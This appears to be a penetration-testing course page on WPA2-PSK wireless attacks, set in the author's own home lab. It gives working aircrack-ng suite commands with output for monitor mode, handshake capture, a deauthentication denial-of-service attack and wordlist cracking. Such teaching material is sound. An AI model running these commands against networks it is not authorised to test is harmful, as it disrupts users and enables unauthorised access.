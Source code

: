 # 7. Wireless Attacks

## Wireless penetration testing

➡️ A **Wireless Penetration Test** involves the assessment of a wireless network’s security, including `WPA2-PSK` and `WPA2-Enterprise`, by:

- evaluating PSK strength
- reviewing nearby networks
- assessing guest networks
- checking network access to identify vulnerabilities

**Tools**

- Wireless card (`e.g.` Alfa ... / Kali compatible adapters)
  - check [Best Kali Linux Compatible USB Adapters 2024 – WirelesSHack](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html)
- Router
- Laptop

### The Hacking process (WPA2 PSK)

➡️ **Place**

- Place wireless card into monitor mode

➡️ **Discover**

- Discover information about network - Channel, BSSID, etc

➡️ **Select**

- Select network and capture data

➡️ **Perform**

- Perform deauthentication attack (optional)

➡️ **Capture**

- Capture WPA handshake

➡️ **Attempt**

- Attempt to crack the handshake to get the password

---

## WPAPS2 Exploit

> 📌 Check my [OpenWrt & WiFi Exploitation](https://blog.syselement.com/home/home-lab/misc/openwrt-wifi-hack) home lab done with a `TP-Link EAP225 v2` and OpenWrt for a more in depth setup process

[Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=Main) is a complete suite of command line tools to assess WiFi network security.

- Connect the WiFi adapter to the host computer, and connect to the Kali VM

```bash
# Check for card presence
iwconfig

    wlan0     IEEE 802.11  ESSID:off/any  
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)

- **Place** the card into monitor mode

```bash
# Kill unnecessary processes
sudo airmon-ng check kill

# Set card in monitor mode
sudo airmon-ng start wlan0

    PHY	Interface	Driver		Chipset

    phy0	wlan0		rtw_8822bu	ASUSTek Computer, Inc. 802.11ac NIC
            (monitor mode enabled)

# Check
iwconfig
    wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

- Search the area and **discover** SSIDs
- **Select** the network to capture data from

```bash
mkdir -p $HOME/tcm/peh/wifi && cd $HOME/tcm/peh/wifi

sudo airodump-ng wlan0

# Capture the handshake
sudo airodump-ng -c 6 --bssid 22:66:CF:7D:D6:14 -w capture wlan0
```

![airodump-ng](.gitbook/assets/image-20250221082555755.png)

➡️ A **Deauthentication (Deauth) Attack** is a type of **Wi-Fi denial-of-service (DoS) attack** where an attacker forcibly disconnects devices from a wireless network by sending **fake deauthentication frames** to the target device or access point, and capture the handshake when the device re-connects to the Wi-Fi network.

➡️ [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

- **Perform** de-auth attack and **capture** WPA handshake

```bash
# De-auth attack
sudo aireplay-ng -0 1 -a 22:66:CF:7D:D6:14 -c 48:E1:E9:E6:91:02 wlan0
```

![aireplay-ng](.gitbook/assets/2025-02-21_08-33-58_895.png)

➡️ [aircrack-ng](https://www.kali.org/tools/aircrack-ng/)

- Attempt **cracking** of the captured handshakes

```bash
ls

capture-01.cap
capture-01.csv
capture-01.kismet.csv
capture-01.kismet.netxml
capture-01.log.csv

# Create a wordlist, with the testing WiFi lab password

# Crack the handshake
aircrack-ng -w wordlist.txt -b 22:66:CF:7D:D6:14 capture-01.cap
```

![aircrack-ng](.gitbook/assets/2025-02-21_08-39-18_896.png)

---

